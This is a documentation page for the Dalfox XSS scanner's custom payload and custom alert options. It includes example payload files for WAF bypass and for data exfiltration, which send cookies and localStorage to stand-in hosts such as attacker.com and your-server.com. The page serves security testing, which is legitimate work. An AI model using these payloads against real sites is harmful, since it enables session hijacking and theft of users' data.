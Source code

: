 ```yaml
---
title: Custom Payload/Alert
redirect_from: /docs/custom-payload/
nav_order: 1
parent: Features
toc: true
layout: page
---
```


# Custom Payload and Custom Alert

## Overview

Dalfox provides powerful options to customize both the XSS payloads used during scanning and the alert mechanisms triggered upon successful exploitation. These customization features are particularly valuable when:

- Testing against applications with specific XSS filters or WAFs
- Verifying vulnerabilities in environments where standard payloads fail
- Creating targeted proof-of-concept demonstrations
- Executing specialized JavaScript functions during XSS verification
- Evading detection by security tools that look for common XSS patterns

## Custom Payloads

The custom payload feature allows you to provide your own list of XSS payloads that Dalfox will use during testing, either alongside or instead of the built-in payloads.

### Using Custom Payload Files

Create a text file containing your custom payloads, with one payload per line:

**Example `my-payloads.txt`:**
```
<img src=x onerror=confirm(document.domain)>
<svg onload=eval(atob('YWxlcnQoZG9jdW1lbnQuY29va2llKQ=='))>
<script>fetch('https://attacker.com/c='+document.cookie)</script>
```

Then use the file with the `--custom-payload` flag:

```bash
dalfox url https://example.com/search?q=test --custom-payload my-payloads.txt
```

### Only Using Custom Payloads

If you want Dalfox to use only your custom payloads and skip the built-in ones, add the `--only-custom-payload` flag:

```bash
dalfox url https://example.com/search?q=test --custom-payload my-payloads.txt --only-custom-payload
```

This is particularly useful when:
- You need to test with a very specific set of payloads
- You want to reduce scanning time
- You're testing against a known framework with specific vulnerabilities

### Payload Templating

Your custom payloads can include special placeholder values that Dalfox will replace during testing:

- `{{title}}` - Replaced with "Dalfox"
- `{{version}}` - Replaced with the current Dalfox version

Example payload using placeholders:
```
<script>alert('XSS found by {{title}} v{{version}}')</script>
```

## Custom Alert Mechanisms

Dalfox allows you to customize the JavaScript function and value used for XSS proof-of-concept verification. This is controlled by two flags:

- `--custom-alert-value`: Changes what value is passed to the alert function
- `--custom-alert-type`: Controls how the value is formatted (string, numeric, etc.)

### Custom Alert Value

By default, Dalfox uses `alert(1)` for XSS verification. You can change the value inside the alert:

```bash
# Use alert(1337) instead of alert(1)
dalfox url https://example.com/search?q=test --custom-alert-value 1337

# Execute more complex JavaScript
dalfox url https://example.com/search?q=test --custom-alert-value "document.domain"
```

### Alert Types

The `--custom-alert-type` flag controls how the value is formatted:

| Type | Description | Example Result |
|------|-------------|---------------|
| `none` (default) | Use the value directly | `alert(1337)`, `alert(document.cookie)` |
| `str` | Wrap value in quotes | `alert("1337")`, `alert('document.cookie')` |
| `int` | Ensure value is treated as integer | `alert(1337)` |

You can specify multiple types to have Dalfox test with different formats:

```bash
# Test with both string and numeric formats
dalfox url https://example.com/search?q=test --custom-alert-value 1337 --custom-alert-type "str,int"
```

### Examples with Different Alert Types

#### Default (No Custom Alert)

```bash
dalfox url http://vulnerable-site.com/page?param=test
```

Generated payloads will use the default `alert(1)`:
```html
<script>alert(1)</script>
<img src=x onerror=alert(1)>
```

#### Custom Alert Value (No Type Specified)

```bash
dalfox url http://vulnerable-site.com/page?param=test --custom-alert-value document.cookie
```

Generated payloads:
```html
<script>alert(document.cookie)</script>
<img src=x onerror=alert(document.cookie)>
```

#### Custom Alert Value with String Type

```bash
dalfox url http://vulnerable-site.com/page?param=test --custom-alert-value XSS --custom-alert-type str
```

Generated payloads:
```html
<script>alert("XSS")</script>
<img src=x onerror=alert('XSS')>
```

#### Multiple Alert Types

```bash
dalfox url http://vulnerable-site.com/page?param=test --custom-alert-value 1337 --custom-alert-type str,none
```

Both formats will be tested:
```html
<script>alert("1337")</script>
<script>alert(1337)</script>
```

## Advanced Use Cases

### WAF Bypass Example

Create a custom payload file with WAF evasion techniques:

**waf-bypass.txt:**
```
<img src=x onerror=\u0061\u006C\u0065\u0072\u0074(1)>
<iframe src="javascript:&#97&#108&#101&#114&#116(1)"></iframe>
<script>eval('\u0061\u006c\u0065\u0072\u0074(1)')</script>
```

Run the scan with these payloads:
```bash
dalfox url https://waf-protected-site.com/search --custom-payload waf-bypass.txt
```

### Data Exfiltration Example

Create payloads that send data to your server:

**exfiltration.txt:**
```
<img src=x onerror="fetch('https://your-server.com/log?cookie='+document.cookie)">
<script>navigator.sendBeacon('https://your-server.com/log', JSON.stringify(localStorage))</script>
<svg onload="(new Image).src='https://your-server.com/log?'+document.cookie">
```

Run with your exfiltration payloads:
```bash
dalfox url https://target-site.com --custom-payload exfiltration.txt
```

### DOM Exploration 

Custom payloads to explore DOM properties:

**dom-explore.txt:**
```
<img src=x onerror="alert(Object.keys(window))">
<script>alert(document.documentElement.innerHTML.substring(0,500))</script>
```

Combined with custom alert type:
```bash
dalfox url https://target-site.com --custom-payload dom-explore.txt --custom-alert-type none
```

## Best Practices

1. **Start Small**: Begin with a few custom payloads to test their effectiveness
2. **Test Variations**: Create multiple variations of the same payload to bypass different filters
3. **Use Context-Specific Payloads**: Create separate payload files for different contexts (HTML, JS, attribute, etc.)
4. **Document Your Payloads**: Add comments in your payload files to remember their purpose
5. **Combine with Other Features**: Use custom payloads with other Dalfox features like blind XSS for best results
